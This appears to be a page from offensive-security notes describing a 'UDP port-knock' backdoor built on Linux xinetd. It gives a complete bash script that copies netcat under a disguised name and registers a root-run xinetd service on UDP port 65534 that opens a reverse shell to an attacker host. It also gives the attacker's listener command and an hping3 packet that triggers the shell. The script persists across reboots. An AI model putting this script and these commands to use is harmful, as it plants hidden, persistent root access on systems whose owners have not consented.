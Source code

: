 # Xinetd UDP portnock

thia utilizes the built-in “xinetd” daemon, which is used to manage network-based services on Linux systems. Xinetd listens for incoming requests to ports we can define, and when a specific request is received, we can have it execute a command of our choosing. Of course, this is useful to us!

For our purposes, we will create a custom xinetd service, which listens on a UDP port which we can send a single UDP packet to. Once that packet is received to the port we define, it will initiate a netcat reverse shell back to our attacker system. We’re calling it a UDP port-knock backdoor because once we “knock” on our UDP port, it gives us an immediate reverse shell

Port knocking is a well-known concept, but we’re implementing it differently, not requiring any third-party software.

{% embed url="https://en.wikipedia.org/wiki/Port\_knocking" %}

Another bonus is it will persist across reboots

To create our xinetd backdoor, we should follow these steps:

Step 1. On the target machine, we’re going to create a custom xinetd service. We’ve put together a bash script \(xinetd\_server.sh\) you can simply run on the target host, and it can be downloaded here:

{% embed url="https://gist.github.com/anonymous/3cb8e474b6bb3fd3787bda1e1a55cf56" %}

![](../../../.gitbook/assets/1%20%2823%29.png)

```text
#!/bin/bash

cp /bin/nc /bin/services-udp
echo "service services-udp" >/etc/xinetd.d/services-udp
echo "{" >> /etc/xinetd.d/services-udp
echo "		server = /bin/services-udp" >> /etc/xinetd.d/services-udp
echo "		server_args = <attacker_IP> <attacker_PORT> -e /bin/bash" >> /etc/xinetd.d/services-udp
echo "		protocol = udp" >> /etc/xinetd.d/services-udp
echo "		user = root" >> /etc/xinetd.d/services-udp
echo "		socket_type = dgram" >> /etc/xinetd.d/services-udp
echo "		wait = yes" >> /etc/xinetd.d/services-udp
echo "		flags = IPv4" >> /etc/xinetd.d/services-udp
echo "}" >> /etc/xinetd.d/services-udp

echo "services-udp	65534/udp       # services-udp" >> /etc/services

/etc/init.d/xinetd stop
/etc/init.d/xinetd start
```

The following script, when executed, will create a new xinetd service called “services-udp.” The “services-udp” custom service will be configured to listen on port 65534 UDP on the target machine. It will also require that netcat \(nc\) is on the target host in the usual /bin/ directory. It will copy the nc executable to a file called “/bin/services-udp.” We’re obscuring netcat as another file in this case.

Step 2. On the attacker machine, simply start up a netcat listener with the same  you defined in the xinetd\_server.sh script before running it. In the below example, we’re using 4444:

```text
nc -nlvp 4444
```

step 3. For the final step, we will use a tool called hping3 to send a single UDP packet to port 65534 on the target host, at which point, our custom “services-udp” netcat binary will be triggered, and send us a reverse shell. The hping command we will use is:

```text
hping3 -2 -c 1 <target IP> -p 65534
```

![](../../../.gitbook/assets/1%20%2824%29.png)















